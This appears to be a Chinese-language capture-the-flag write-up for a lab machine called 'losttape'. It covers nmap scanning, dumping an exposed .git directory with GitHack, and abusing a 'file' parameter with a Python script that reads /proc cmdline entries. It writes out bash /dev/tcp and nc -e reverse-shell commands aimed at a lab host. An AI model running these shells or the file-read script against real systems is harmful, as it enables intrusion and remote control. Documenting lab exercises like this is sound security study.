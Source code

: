 # losttape
nmap扫描
![](vx_images/1142556960252.png)
看一下80端口,发现.git文件
用githack下载下来查看源码
```
python2 GitHack.py http://192.168.111.147/.git/
```

![](vx_images/198932478683857.png)
直接执行反弹shell命令

/bin/bash -c "bash -i >& /dev/tcp/192.168.111.128/4444 0>&1"
nc -e /bin/bash 192.168.111.128 4444
但是根本没用,没有任何返回
合理的解释是这是旧版本,新版本可能有改变,可以去fuzz一些参数
![](vx_images/257483105006391.png)
![](vx_images/339988787471432.png)
参数file
读取源码
![](vx_images/194235973939950.png)
但是感觉没有啥用,不是include
看了下可以查看运行的进程
```
import requests

url = 'http://192.168.111.147/index.php'
for num in range(1000):
    data = {
        "file": f"/proc/{num}/cmdline"
    }
    response = requests.post(url, data=data)
    r = response.text.replace('Welcome', '')
    if r != '':
        print(f"{num}: {r}")

```
![](vx_images/496035030529472.png)
